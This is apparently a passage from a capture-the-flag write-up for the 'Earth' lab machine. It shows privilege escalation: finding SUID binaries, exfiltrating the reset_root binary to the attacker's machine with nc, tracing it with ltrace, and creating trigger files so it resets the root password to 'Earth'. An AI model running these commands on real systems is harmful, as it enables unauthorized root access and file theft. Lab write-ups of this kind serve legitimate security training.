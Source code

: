 To find the binaries with SUID bit, we can use the following command
```
find / -perm -u=s -type f 2>/dev/null
```
![reset_root](/assets/earth/reset_root.png)

The reset root binary really stands out. Let's see what does it do.

![exec_reset](/assets/earth/exec_reset.png)

It seems to be calling for some triggers. But as such we dont know anything about them. First of all let's get the file to our local machine and see what it has.  
We will be using nc utility to transfer the binary.
On our local machine run the following command to start a listener
```
nc -lp 9002 > reset_root
```
On the remote server run the following command
```
nc -w 3 your_ip port < /usr/bin/reset_root
```
And as you can see, we received the file.

![send_file](/assets/earth/send_file.png)

Now to look for the "triggers" for the execution of the reset_root binary, we are going to use the ltrace utility.    
ltrace is a simple program which is going to execute the binary until or unless it exits. It will tell us about all the library calls and intercept the system calls made by the binary.  
First we have to make the reset_root binary executable.
```
chmod +x reset_root
```
Next we will execute the ltrace utility.

```
ltrace ./reset_root
```

![ltrace](/assets/earth/ltrace.png)

It seems to be looking for three file present in different locations. let's try creating these file and see if we can then execute the reset_root binary.

```
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcMOWewe
reset_root
```
And bingo! we apprently succeeded in resetting the root password to "Earth"
![reset_worked](/assets/earth/reset_worked.png)

Now let's switch to the root user and grab that root flag!
```
su -
(password is Earth)
```
![root_flag](/assets/earth/root_flag.png)

With this we have completed Earth.